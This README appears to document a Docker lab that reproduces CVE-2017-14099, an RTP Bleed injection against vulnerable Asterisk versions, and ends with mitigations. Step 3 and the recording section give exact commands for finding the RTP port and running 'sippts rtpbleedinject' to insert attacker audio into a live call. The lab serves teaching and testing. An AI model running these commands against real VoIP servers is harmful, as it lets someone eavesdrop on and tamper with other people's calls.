


# RTP Injection Attack
- Vulnerable component: Asterisk server
- Affected versions: 
    - for class 11.x before 11.25.2
    - for class 13.x before 13.17.1
    - for class 14.x before 14.6.1
- CVE ID: [CVE-2017-14099](https://nvd.nist.gov/vuln/detail/CVE-2017-14099)
## Description
In this scenario, after two clients establish a communication, an attacker can intercept the RTP traffic (due to the RTP Bleed vulnerability) and inject malicious audio into the conversation.

## How to reproduce the issue
**Note**: First, update the ```EXTERNAL_IP``` variable with your machine's IP address in `docker-compose.yaml` (asterisk service), then recreate the scenario so the startup script re-renders `sip.conf` with the correct values.

### Step 1: Register two Linphones
For this scenario, the Linphone application must be used to simulate the SIP clients.
Users <b>7001</b> e <b>7002</b> are registered. Below is the registration of user 7001 (the registration procedure for 7002 is analogous):


**Note**: Use your machine's IP address.

### Optional: Use the headless CLI clients
Two headless SIP client pairs are available:
- `linphone-cli-7001` / `linphone-cli-7002` for SIP-only call control experiments
- `baresip-cli-7001` / `baresip-cli-7002` for repeatable RTP generation during injection testing

For the RTP injection exercise, prefer the `baresip` pair because it continuously sends `PCMU/8000` RTP from a WAV file and avoids the desktop UI.
The benign call audio is `audio_benign.wav`, while the injected demo payload is `audio_inject.wav`.

```bash
docker compose up -d baresip-cli-7001 baresip-cli-7002
make baresip-call
docker exec asterisk asterisk -rx "core show channels verbose"
```

Useful helper commands:

```bash
make baresip-status
make baresip-hangup
make recordings-list
docker logs baresip-cli-7001
docker logs baresip-cli-7002
```

`baresip-cli-7002` auto-answers. `baresip-cli-7001` is the caller used by `make baresip-call`.

If you still want the older `linphone-cli` pair:

```bash
docker compose up -d linphone-cli-7001 linphone-cli-7002
make cli-call
```

### Step 2: Start Wireshark
The Wireshark container is started to observe the port used for RTP traffic (in the example, RTP uses ports between 10000 and 10099). 

To run Wireshark with a graphical interface from the container, you need to allow local root users to access the host’s display. This can be done on the host machine with:
```bash
xhost +local:root
```
Then the user can use the following command:
```bash
docker exec -it wireshark wireshark
```
The network interface is selected, and a call is initiated between Linphone 7001 and 7002:



On Wireshark you can see the port used for the communication:



### Step 3: Exploit the vulnerability
In the vulnerable versions, if ```nat = yes```, the RTP proxies can automatically learn the attacker's IP and port and send the RTP legitimate traffic to him. After that, the attacker can send a malicious audio and degradeted the connection.

Access the <i>sippts</i> container:
```bash
docker exec -it sippts bash
```
and run the script:
```bash
sippts rtpbleedinject -i <IP_VM> -r <port_number> -f /audio_inject.wav
```
where:
- ```rtpbleedinject``` indicates the type of attack, namely RTP Injection;
- ```-i <IP_VM>``` represents the IP address of the VM running the Asterisk server;
- ```-r <port_number>``` represents the previously identified port number;
- ```-f /audio_inject.wav``` indicates the audio file injected into the conversation.

Useful checks before testing:

```bash
docker exec asterisk asterisk -rx "sip show settings"
docker exec asterisk asterisk -rx "sip show peer 7001"
docker exec asterisk asterisk -rx "sip show peer 7002"
docker logs baresip-cli-7001 | tail
docker logs baresip-cli-7002 | tail
ls -lt recordings
```

`sip show settings` should display a populated `Externaddr` and a `localnet` entry. If they are empty, restart the lab after updating `EXTERNAL_IP`.

When using the `baresip` pair, the logs should show:
- both accounts registered successfully
- `Call established`
- `stream: incoming rtp for 'audio' established`

During self-testing, `sippts rtpbleedinject` was able to infer the live RTP sequence number and timestamp against the `baresip` call, which was the part that failed with the original `linphone-cli` approach.

### Hard proof: record the attacked call
Asterisk now records each bridged call into `recordings/` using `MixMonitor`, so you can keep a concrete artifact of the call after the injection test.

Suggested flow:

```bash
make recordings-clean
docker compose up -d --build asterisk sippts baresip-cli-7001 baresip-cli-7002
make baresip-call
docker logs baresip-cli-7001 | tail
docker exec sippts sippts rtpbleedinject -i 10.10.0.5 -r <asterisk_rtp_port> -f /audio_inject.wav -p 0
make baresip-hangup
make recordings-list
make recording-proof
```

The resulting files are:
- `recordings/<call>.wav`: the mixed call audio recorded by Asterisk
- `recordings/<call>-proof.png`: waveform + spectrogram image
- `recordings/<call>-proof.txt`: codec, duration, and file metadata from `ffprobe`
- `recordings/baresip-cli-7001/*-dec.wav` and `recordings/baresip-cli-7002/*-dec.wav`: receiver-side decoded audio dumps from `baresip`

Because the benign `baresip` stream is a simple alternating tone file and the injected payload is a different sample, the proof image is easier to interpret than when both sides use similar audio.

Audio format note:

`sippts rtpbleedinject` does not transcode arbitrary WAV files. Use an 8 kHz, mono, G.711 mu-law WAV file such as the bundled `audio_inject.wav` or `audio_fixed.wav`. To convert your own sample:

```bash
ffmpeg -i input.wav -ar 8000 -ac 1 -c:a pcm_mulaw audio_inject.wav
```

## Mitigations
- Set ```nat = false``` to prevent the proxy from automatically learning information about attackers.
- Use patched version of Asterisk.

## Credits
This vulnerability was discovered by [Enable Security](https://www.enablesecurity.com/).
